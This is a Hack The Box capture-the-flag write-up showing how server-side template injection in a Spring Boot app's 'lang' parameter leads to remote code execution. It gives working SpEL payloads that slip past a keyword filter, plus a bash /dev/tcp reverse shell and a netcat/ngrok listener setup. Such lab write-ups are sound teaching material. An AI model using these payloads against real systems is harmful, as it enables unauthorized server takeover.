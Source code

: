 ```yaml
---
clayout: ctf
title: Breathtaking View
date: 2024-10-27
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Breathtaking View
      link: https://app.hackthebox.com/challenges/767
      thumbnail: /ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/767
          thumbnail: /ctf/hack-the-box/challenges/web/breathtaking-view/pwned.png
---
```


## Box description

Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

## Challenge Description

This challenge is a web application written in **Spring Boot**. It provides a simple interface with registration and
login functionality. Once logged in, we are presented with the following page:

![View 1](/ctf/hack-the-box/challenges/web/breathtaking-view/view1.png)

Clicking the "Change Language" button redirects to another page:

![View 2](/ctf/hack-the-box/challenges/web/breathtaking-view/view2.png)

Looking at the URL, we can see that the language is passed as a parameter:

```
http://localhost:1337/?lang=fr
```

## Code Review

### IndexController.java

```java
@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
        }

        return lang + "/index";
    }
}
```

Upon reviewing the `IndexController.java` code:

- The `index` method handles the rendering of the main page and takes in a `lang` parameter, which defaults to `"en"`.
- If the `user` session attribute is missing, the method redirects to the login page.
- If the `lang` parameter contains the string `"java"`, the method sets an error message and redirects to the index page.
- Otherwise, it returns a path based on `lang` by appending `"/index"` to it.

The concatenation of `lang` with `"/index"` could allow us to inject code into the `lang` parameter, leading to a **Server-Side Template Injection (SSTI)**
vulnerability.

## Exploitation - Server-Side Template Injection (SSTI)

### Proof of Concept (PoC)

To confirm SSTI vulnerability, we inject a simple expression into the `lang` parameter:

```plaintext
__${7*7}__::.x
```

Using this payload (sourced
from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)),
we receive the following response:

```plaintext
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The payload `7*7` evaluated to `49`, confirming that SSTI is possible. We can now proceed to exploit this vulnerability.

### Exploit Strategy

Our goal is to inject Java code into the `lang` parameter to execute system commands on the server. However, since any
input containing the string `"java"` triggers a redirection, we need a workaround.

#### Using the T() Class

In Java, the `java.lang` package is imported by default. By leveraging the `T` operator from **Spring Expression
Language (SpEL)**, we can call methods like `Runtime.getRuntime()` without specifying `java.lang`.

### Payload

We start with a payload to list files in the current directory:

```java
__${T(Runtime).getRuntime().exec("ls")}__::.x
```

#### Response

```
Error resolving template [java.lang.UNIXProcess@590062a7], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The response shows `java.lang.UNIXProcess@590062a7`, indicating that the `exec()` command executed successfully.
However, we don’t see the output of the `ls` command directly because `exec()` returns a `Process` object, not a string.

To capture command output, we need to redirect it to a more accessible place, such as a reverse shell.

### Establishing a Reverse Shell

To create a reverse shell, we start by setting up a listener on our machine and then use the following payload to create
a shell script on the server:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > shell.sh"})}__::.x
```

Looking at the docker container file, we can see the `shell.sh` file created

### Executing the Shell Script

To run the shell script and establish the reverse shell, we use the following payload:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "bash shell.sh"})}__::.x
```

Upon execution, we successfully gain a reverse shell and can interact with the server.

With the reverse shell active, we proceed to list files in the root directory:

```bash
root@9348cae2ee45 /# ls
app
bin
boot
dev
etc
flag_lyh3sdrgCjCI_.txt
home
...
```

Reading the flag file:

```bash
root@9348cae2ee45 /# cat flag_lyh3sdrgCjCI_.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

## References

- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)
